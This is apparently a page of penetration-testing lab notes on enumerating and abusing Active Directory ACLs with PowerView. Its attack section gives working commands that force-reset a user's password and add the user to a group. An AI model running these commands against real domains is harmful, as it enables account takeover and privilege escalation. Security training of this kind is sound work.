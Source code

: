 ### 🔍 **Object-Specific ACL Analysis**
```powershell
# Analyze specific group ACLs
Get-DomainObjectACL -ResolveGUIDs -Identity "Domain Admins"

# Analyze specific user ACLs
Get-DomainObjectACL -ResolveGUIDs -Identity Administrator

# Analyze computer object ACLs
Get-DomainObjectACL -ResolveGUIDs -Identity "ACADEMY-EA-DC01$"

# Analyze GPO ACLs
Get-DomainGPO | Get-DomainObjectACL -ResolveGUIDs
```

### 📊 **ACL Statistics and Analysis**
```powershell
# Count rights by type
Get-DomainObjectACL -ResolveGUIDs -Identity * | Group-Object ObjectAceType | Sort-Object Count -Descending

# Find users with most rights
Get-DomainObjectACL -ResolveGUIDs -Identity * | Group-Object SecurityIdentifier | Sort-Object Count -Descending

# Analyze inheritance patterns
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.IsInherited -eq $false} | Group-Object ObjectAceType
```

---

## 🛠️ Common ACL Attack Patterns

### 🔑 **Password Reset Rights**
```powershell
# Find all Force-Change-Password rights
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.ObjectAceType -eq "User-Force-Change-Password"}

# Attack: Force password reset
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity damundsen -AccountPassword $UserPassword
```

### 👥 **Group Membership Manipulation**
```powershell
# Find Self-Membership rights
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.ObjectAceType -eq "Self-Membership"}

# Attack: Add user to group
Add-DomainGroupMember -Identity "Help Desk Level 1" -Members damundsen
```
